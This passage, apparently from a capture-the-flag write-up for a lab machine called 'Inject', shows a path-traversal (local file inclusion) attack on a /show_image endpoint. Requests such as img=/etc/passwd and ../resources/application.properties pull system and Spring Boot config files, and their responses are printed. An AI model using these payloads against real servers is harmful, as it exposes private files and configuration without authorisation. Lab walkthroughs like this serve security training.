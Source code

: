 Can it accept any type of file, or just images? Can we mess with the multipart form-data and adjust *where* the file is stored? Can we manipulate the `img` parameter to include a different file or perform some sort of injection?

After uploading various file types, the form only accepts image files. That seems like a dead end. However, it does appear that we can perform a LFI from the `/show_image` endpoint:

```html
GET /show_image?img=/etc/passwd HTTP/1.1
Host: inject.htb:8080
Accept: application/json

HTTP/1.1 500 
Content-Type: application/json
Date: Sun, 12 Mar 2023 23:32:04 GMT
Connection: close
Content-Length: 248

{"timestamp":"2023-03-12T23:32:04.767+00:00","status":500,"error":"Internal Server Error","message":"URL [file:/var/www/WebApp/src/main/uploads/etc/passwd] cannot be resolved in the file system for checking its content length","path":"/show_image"}
```

Nice! I now know the app root path and the upload directory. I can use a relative path to try and download  well-known files for spring boot apps:

```html
GET /show_image?img=../resources/application.properties HTTP/1.1
Host: inject.htb:8080
Accept: application/json

HTTP/1.1 200 
Accept-Ranges: bytes
Content-Type: image/jpeg
Content-Length: 327
Date: Sun, 12 Mar 2023 23:34:33 GMT
Connection: close

server.tomcat.relaxed-query-chars=|,{,},[,]
server.error.whitelabel.enabled=false
spring.main.allow-circular-references=true
spring.servlet.multipart.max-file-size=1MB
spring.servlet.multipart.max-request-size=2MB
spring.cloud.config.uri=
spring.cloud.config.allow-override=true
debug=false
server.error.include-message=always
```

LFI confirmed! I’m going to see what else I can get:

```html
GET /show_image?img=../../../pom.xml HTTP/1.1
Host: inject.htb:8080
Accept: application/json

HTTP/1.1 200 
Accept-Ranges: bytes
Content-Type: image/jpeg
Content-Length: 2187
Date: Sun, 12 Mar 2023 23:35:31 GMT
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
```